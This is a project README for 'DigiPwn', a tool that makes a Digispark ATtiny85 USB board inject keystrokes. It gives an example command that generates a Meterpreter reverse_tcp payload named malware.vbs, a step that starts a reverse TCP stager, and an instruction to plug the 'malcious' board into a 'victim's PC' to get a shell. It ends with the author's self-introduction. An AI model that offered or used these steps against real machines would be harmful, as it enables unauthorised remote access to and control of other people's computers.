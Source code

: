 # DigiPwn
Digispark KickStarter ATtiny85 USB Development Board The ATtiny85 based mini development board is similar to the Arduino, 
but cheaper and smaller (of course a bit less powerful). With a whole host of shields to extend its functionality and the 
ability to use the familiar Arduino IDE, this board is a great way to jump into microcontroller electronics.

# Requirements
 - [Python 2.7](https://www.python.org/downloads/)
 - [Arduino](https://www.arduino.cc/en/Main/Software)
 - Setup DigiSpark board in Arduino. [Click here for how-to.](https://digistump.com/wiki/digispark/tutorials/connecting)

# Installation 
 - First clone the repo
  `git clone https://github.com/zer0overflow/DigiPwn.git`
 - Then run `python DigiPwn.py [HOST] [PORT] [PAYLOAD] [OUTPUT FILE] [FORMAT]`
   
   Example: `python DigiPwn.py 192.168.1.2 8080 windows/meterpreter/reverse_tcp malware.vbs vbs`
   
 - A file named `keystroke_inject.ino` will be created. Upload that code using Arduino.
 
 - The program will ask you if you want to start a reverse tcp stager. Press y and then enter to start one.
 
 - Plug the malcious DigiSpark to victim's PC and BOOM! You've a shell!
 
 # About me
 I'm a 17 year old kid born and raised Oman an country in the middle east. Growing up i was pretty much intrested to code and 
 fell in love with it. During my 8th grade I was introduced to Kali Linux a OS that changed my view of life. 
 Follow me on Instagram
 
 [https://www.instagram.com/zero.overflow](https://www.instagram.com/zero.overflow)
